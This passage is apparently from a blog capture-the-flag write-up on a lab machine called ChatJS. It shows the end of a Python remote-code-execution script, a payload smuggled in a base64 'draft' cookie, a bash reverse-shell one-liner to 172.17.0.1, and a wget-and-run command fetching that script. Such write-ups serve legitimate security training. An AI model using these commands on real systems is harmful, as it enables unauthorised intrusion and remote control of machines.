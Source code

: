 ```py
    
    command = args.command
    
    '''Here we call the functions'''
    get_rce(command)
    
if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2012:30:40.png)

We base64 encode it, to put in the draft cookie

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2012:31:48.png)

And execute it with a python web server opened on port 80

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2012:32:10.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2012:32:17.png)

Okay, we got RCE. Now let's get a reverse shell in it

We create a simple bash script to get a reverse shell

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/172.17.0.1/448 0>&1' > reverse
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2012:35:33.png)

We will download and execute it

```sh
python3 read.py -c "wget 172.17.0.1/reverse && bash reverse"
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2012:38:14.png)

Base64 it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2012:38:06.png)

Execute as draft

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2012:39:16.png)

And it has been downloaded an execute, we have reverse shell!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-05-bmdyy-ChatJS/2021-11-05-bmdyy-ChatJS%2012:39:38.png)

Now, let's automate the whole thing

# Exploit
